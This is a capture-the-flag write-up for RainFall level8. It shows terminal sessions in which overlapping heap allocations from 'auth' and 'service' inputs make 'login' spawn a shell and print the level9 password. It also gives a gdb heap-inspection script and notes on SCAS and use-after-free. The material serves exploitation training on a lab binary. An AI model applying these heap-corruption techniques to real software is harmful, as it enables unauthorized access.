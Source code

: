 
```
level8@RainFall:~$ objdump -t level8 | grep bss
08049aac   auth
08049ab0   service
```
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
(nil), (nil)
service
(nil), 0x804a008
reset
(nil), 0x804a008
login
Segmentation fault (core dumped)
```

```
auth AAAAAA
0x804a008, (nil)
service 1111
0x804a008, 0x804a018
service 1111
0x804a008, 0x804a028
login
$ pwd
/home/user/level8
```

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth aaa
0x804a008, (nil)
service jjjjjjjjjjjjjjjjjjjjjjjjjjjj
0x804a008, 0x804a018
login
$ pwd
/home/user/level8
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

```
set hei 0
set pag off
define hook-stop
x/20wx 0x0804a000
echo ------------[service] -----------------\n
x/s service
echo ------------[auth] --------------------\n
x/s auth
echo ------------[auth+32] -----------------\n
x/s auth+0x20
echo ---------------------------------------\n
continue
end
```

```
(gdb) c
Continuing.
(nil), (nil)
auth AAAA
0x804a008, (nil)
serviceBBBBBBBBBBBBBBBB
0x804a008, 0x804a018
^C
Program received signal SIGINT, Interrupt.
0x804a000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804a010:      0x00000000      0x00000019      0x42424242      0x42424242
0x804a020:      0x42424242      0x42424242      0x0000000a      0x00020fd9
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000
------------[service] -----------------
0x804a018:       'B' <repeats 16 times>, "\n"
0x804a018:       'B' <repeats 16 times>, "\n"
------------[auth] --------------------
0x804a008:       "AAAA\n"
0x804a008:       "AAAA\n"
------------[auth+32] -----------------
0x804a028:       "\n"
---------------------------------------
login
$ pwd
/home/user/level8
```

The SCAS instruction is used to scan a string (SCAS = SCan A String).
It compares the content of the accumulator (AL, AX, or EAX) against the current value pointed at by ES:[EDI].

When used together with the REPNE prefix (REPeat while Not Equal), 
SCAS scans the string searching for the first string element which is equal to the value in the accumulator. 


**Assembly commentary**
`check source section`

 Use-After-Free (UAF)  Vulnerabilities https://youtu.be/ZHghwsTRyzQ?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
